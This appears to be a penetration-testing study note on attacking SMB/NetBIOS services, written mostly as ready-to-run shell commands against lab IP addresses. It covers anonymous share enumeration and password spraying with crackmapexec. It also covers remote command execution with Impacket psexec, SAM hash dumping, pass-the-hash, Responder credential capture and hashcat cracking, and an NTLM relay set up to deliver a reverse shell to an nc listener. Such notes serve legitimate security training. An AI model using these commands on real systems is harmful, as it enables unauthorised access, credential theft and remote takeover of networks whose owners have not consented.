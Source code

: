 
TCP/139 and UDP/137 and 138 (NetBIOS over TCP/IP)
TCP/445

Tools to connect:
- smbclient
- smbmap
- rpcclient
- enum4linux

Tools to exploit:
- Impacket PsExec
- Impacket SMBExec
- Impacket atexec
- CrackMapExec
- Metasploit PsExec

Samba = SMB for Linux

```shell-session
sudo nmap 10.129.14.128 -sV -sC -p139,445
```

##### Anonymous Authentication
```shell-session
smbclient -N -L //10.129.14.128
```
```shell-session
smbmap -H 10.129.14.128
```
```shell-session
smbmap -H 10.129.14.128 -r notes
```
```shell-session
smbmap -H 10.129.14.128 --download "notes\note.txt"
```
```shell-session
smbmap -H 10.129.14.128 --upload test.txt "notes\test.txt"
```
```shell-session
rpcclient -U'%' 10.10.110.17
```
```shell-session
./enum4linux-ng.py 10.10.11.45 -A -C
```


### Protocol Specific Attacks

If no anonymous access, we must
- brute force
- password spray

```shell-session
crackmapexec smb 10.10.110.17 -u /tmp/userlist.txt -p 'Company01!' --local-auth
```
(--continue-on-success flag can be set)
(--local-auth is used for computer that is not domain joined)

If admin or high privileges:
- Remote code execution
- Extract Hashes from SAM Database
- Enumerating Logged-on Users
- Pass-the-Hash


#### Impacket PsExec
```shell-session
impacket-psexec -h
```
```shell-session
impacket-psexec administrator:'Password123!'@10.10.110.17
```
(same applicket to impacket-smbexec and impacket-atexec)

#### CrackMapExec
```shell-session
crackmapexec smb 10.10.110.17 -u Administrator -p 'Password123!' -x 'whoami' --exec-method smbexec
```

Enumerating logged-on users
```shell-session
crackmapexec smb 10.10.110.0/24 -u administrator -p 'Password123!' --loggedon-users
```

Extracting Hashes from SAM Database
```shell-session
crackmapexec smb 10.10.110.17 -u administrator -p 'Password123!' --sam
```

Pass-the-Hash
```shell-session
crackmapexec smb 10.10.110.17 -u Administrator -H 2B576ACBE6BCFDA7294D6BD18041B8FE
```


#### Forced Authentication Attacks

Tool:
- Responder (/usr/share/responder/logs/ is where hashes are stored)

```shell-session
responder -I <interface name>
```
```shell-session
sudo responder -I ens33
```

Once credentials are captured, we can use hashcat module 5600 or relay to a remote host to complete the authentication and impersonate the user.

```shell-session
hashcat -m 5600 hash.txt /usr/share/wordlists/rockyou.txt
```

If hashcat does not crack it:

```shell-session
cat /etc/responder/Responder.conf | grep 'SMB ='
```
Set SMB to OFF
```shell-session
impacket-ntlmrelayx --no-http-server -smb2support -t 10.10.110.146
```

Reverse shells: https://www.revshells.com/
```shell-session
impacket-ntlmrelayx --no-http-server -smb2support -t 192.168.220.146 -c 'reverse shell goes here'
```

Once the victim authenticates to our server, we poison the response and make it execute our command to obtain a reverse shell
```shell-session
nc -lvnp 9001
```


